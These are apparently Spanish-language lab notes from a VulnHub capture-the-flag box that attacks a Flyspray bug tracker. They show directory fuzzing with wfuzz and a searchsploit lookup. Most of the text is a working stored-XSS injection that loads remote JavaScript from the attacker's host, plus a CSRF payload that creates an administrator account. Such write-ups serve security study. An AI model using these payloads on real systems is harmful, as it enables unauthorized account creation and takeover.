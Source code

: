 - Fuera del script ejecutamos el binario con **permisos de suid y sgid**

## Symfonos
-----
[Laboratorio:](https://www.vulnhub.com/entry/casino-royale-1,287/)

------

>Pendiente siempre de la **esteganografía** en las photos

- Fuzzing 
```bash
wfuzz -c --hc=404,400,403,500 -w /home/kuser/cosas/repositorios/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt   http://192.168.1.134/FUZZ
```

1. http://192.168.1.134/posts/
2. http://192.168.1.134/flyspray/

```
searchsploit flyspray
```

- Damos con un XSS que da lugar a un CSRF
1. En el parámetrorealname de /myprofile ponemos:
2. nano paf.js
```JS
var tok = document.getElementsByName('csrftoken')[0].value;
var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'

txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

>`"><script src="http://192.168.1.135/paf.js"></script>`

- Eso crea un user y password en  --> http://192.168.1.134/flyspray/
